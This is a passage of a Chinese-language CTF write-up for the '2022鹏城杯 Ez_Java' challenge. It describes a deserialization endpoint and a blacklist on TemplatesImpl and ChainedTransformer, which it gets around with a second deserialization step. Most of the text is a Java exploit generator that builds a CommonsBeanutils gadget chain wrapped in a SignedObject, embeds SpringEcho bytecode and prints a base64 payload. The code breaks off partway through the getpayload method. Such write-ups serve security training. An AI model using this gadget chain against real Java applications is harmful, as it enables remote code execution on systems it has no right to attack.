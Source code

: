 ### [2022鹏城杯]Ez_Java
`/read`可以打反序列化
![](https://img-blog.csdnimg.cn/5df8ac3baae64ed2bf497ea216500035.png)

看一下lib，发现存在cc链和cb链
![](https://img-blog.csdnimg.cn/8ff03bdc8d464ba2aeee139f4d94e974.png)


跟进Secure，看到是一个黑名单过滤(这里使用jd-gu反编译是看不到黑名单的，我这里换了jadx)
![](https://img-blog.csdnimg.cn/98ea8e9393f240cfaa93c0cc5ac72d18.png)

主要是`TemplatesImpl`和`ChainedTransformer`这两个命令执行的类给ban了，那么就需要使用二次反序列化的方法，这里直接使用SignedObject的cb链
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.Base64;
import java.util.PriorityQueue;

public class CB_SingedfObject {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static void main(String[] args) throws Exception {
        byte[] bytes= ClassPool.getDefault().get(SpringEcho.class.getName()).toBytecode();

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{bytes});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        PriorityQueue queue1 = getpayload(obj, "outputProperties");

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(queue1, kp.getPrivate(), Signature.getInstance("DSA"));

        PriorityQueue queue2 = getpayload(signedObject, "object");

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(queue2);
        oos.close();
        System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));
    }

    public static PriorityQueue<Object> getpayload(Object object, String string) throws Exception {
        BeanComparator beanComparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
```